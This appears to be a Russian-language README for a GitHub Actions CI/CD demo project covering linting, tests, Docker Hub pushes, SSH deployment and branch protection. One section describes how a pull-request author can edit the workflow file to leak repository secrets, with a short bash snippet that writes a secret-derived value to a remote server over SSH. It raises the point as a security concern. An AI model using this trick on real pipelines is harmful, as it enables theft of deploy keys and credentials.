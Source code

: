 # py-ci-cd
[![Tests and deploy](https://github.com/koshi8bit/py-ci-cd/actions/workflows/deploy.yml/badge.svg)](https://github.com/koshi8bit/py-ci-cd/actions/workflows/deploy.yml)

Настройка CI CD для проекта на python в github

Пуш в мастер запрещен. В мастер можно фигачить только через *pull request*. Настройка этой опции
[тут](https://github.com/koshi8bit/py-ci-cd/settings/branches). Подставьте свой аккаунт и название репы в ссылке.

Перед pull реквестом в *master* происходит прогон пайплайна, описанного [тут](.github/workflows/deploy.yml).
В него входит:
- Инициализация нужной версии python.
- Установка всех зависимостей из requirements.txt.
- Проверка синтаксиса кода по PEP8 при помощи flake8.
- Запуск всех [юнит тестов](tests/) из папки.
 
Перед пушем в мастер происходит все, что описано выше, но добавляется процесс деплоя на хостинг:
- Запаковка кода в docker контейнер.
- Пуш в dockerhub. При этом образ имеет вид `username/github-repo-name_branch-name:commit-hash`. 
  Такой подход позволит легко вернуться в рабочую версию в случае горения жёп.
- Создание контейнера в виде файла и сжатие его перед отправкой на хостинг (устарело, загрузка в dockerhub лучше, т.к.
  тогда заливается только diff. Но если интересно - можно посмотреть шаги в файле _.github\workflows\deploy.yml.7z_ на этапе _Create locally_).
- Отправка архива контейнера на хостинг через csp (устарело, см выше).
- Подготовка приватного SSH ключа для хостинга из "секретов" гитхаба.
- В этом пайпе представлены примеры удалённого запуска кода на хостинге и пример передачи файла
- Запуск docker контейнера на хостинге при помощи `docker-compose` через SSH. 
- UDP Не получилось оплатить хостинг. ~~Рабочий развернутый проект [на хостинге amazon](http://ec2-3-21-247-173.us-east-2.compute.amazonaws.com:5000/api/v2/foo). Исходный код [тут](src/main.py) **В МОЕМ ПРИМЕРЕ ОТКЛЮЧЁН HTTPS!**~~
- PROFIT!!

Проект и документацию сделал **Лёха К** aka **koshi8bit** 

## Настройка сервера
Нужно последовательно запустить следующие команды
```
sudo apt update && sudo apt upgrade -y
sudo curl https://get.docker.com -o install.sh && sudo sh install.sh  # docker
sudo curl -L "https://github.com/docker/compose/releases/download/v2.3.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose  # docker-compose 1
sudo chmod +x /usr/local/bin/docker-compose # docker-compose 2
sudo usermod -aG docker ${USER} # docker without sudo 1
exit # yep, u need to logout; docker without sudo 2
```
## Секреты
Для работы проекта должны быть добавлены секреты. В моем проекте они настраиваются 
[тут](https://github.com/koshi8bit/py-ci-cd/settings/secrets/actions) (для Вашего проекта адрес будет похожим, 
только нужно заменить имя пользователя и имя проекта). Должны быть настроены следующие секреты:
- DOCKER_PASS
- DOCKER_USER
- SERVER_ADDRES (IP или доменное имя)
- SERVER_SSH_PRIV_KEY (файл priv.pem для Amazon AWS)
- SERVER_SSH_USER

Пока не нашел, как в давать доступ к секретам разным разрабам. Наткнулся на такую "фишку".

Допустим есть репа, в которой работают два разраба: джун и сеньёр. Допустим сеньёр настроил CI-CD и прописал в секретах IP сервака и приватный ключ и настроил деплой. Допустим сеньёр не хочет, чтобы джун лазил в тачку, на которую производится деплой.

Теперь кейс: джун создал ветку с новой фичей, реализовал ее и решил добавить эксплойт, который тырит приватный ключ SSH. 

Как оказалось, в гитхабе при пулл реквесте запуск CI производится из yml файла ветки, в только что работали. 
Соответственно пайп пожно изменить и запустить свой в любой момент и никто его не запретит запускать. И в своем 
ужа красть секреты. 

Вывести в консоль секреты не получится, в гитхабе это дело закрашивается звездочками. 
Через bace64 тоже. Тогда я написал скрипт, который сохраняет переменную в файл и передает ее на удаленный сервак.

```bash
DEBUG="$SERVER_ADDRES $(git log -1 --pretty=format:%h)"
ssh $SERVER_SSH_USER@$SERVER_ADDRES "echo '$DEBUG' > ~/debug.txt"
```

И получается можно в любой момент украсть всю мякотку, которая лежит в секретах гитхаба, если ты делаешь обычный пулл реквест.

Надеюсь я упустил какую-то деталь. Иначе любой автоматический деплой выглядит как дырявое Г.

В гитхабе есть настройка окружений, в целом это позволяет настроить уровни доступа к секретам при помощи 
_Branch protection rule_, но из-за того, что доступ к этим секретам можно получить в пайпе очень криво - нужно
делать много CTRL+C CTRL+V, а это выглядит не очень хорошо.

Тогда можно сделать "сборщик" yaml файла, который будет из темлейта подставлять в разные job'ы одинаковый код, 
но это уже какой-то костыль.. 

**На данный момент изучаю, как можно это решить в gitlab.. Stand by..** 

## Branch protection rule
Branch protection rule для веток ниже будет таким: `[dps][ert][voa]*`:
- dev
- prod
- stage 

Абсолютно отвратительный паттерн, который берет 3 раза по каждой букве из каждого перечисления букв в [скобках]. Паттерн передается в _fnmatch_, 
который не умеет в _логическое или_. По сути - урезанная регулярка.

## Источники
- [Actions](https://youtu.be/WTofttoD2xg?t=82)
- [Docker + Actions](https://youtu.be/09lZdSpeHAk?t=80)
- [Actions на русском](https://youtu.be/hevU4NdIsoU)
- [Gitlab docker](https://youtu.be/RV0845KmsNI)
- [Моя таблица с командами для Docker](https://docs.google.com/spreadsheets/d/1XWuif-QDWUb66IGFz_dPtnHq3K8sGVm4_GctkrrSni4/edit#gid=882078486)
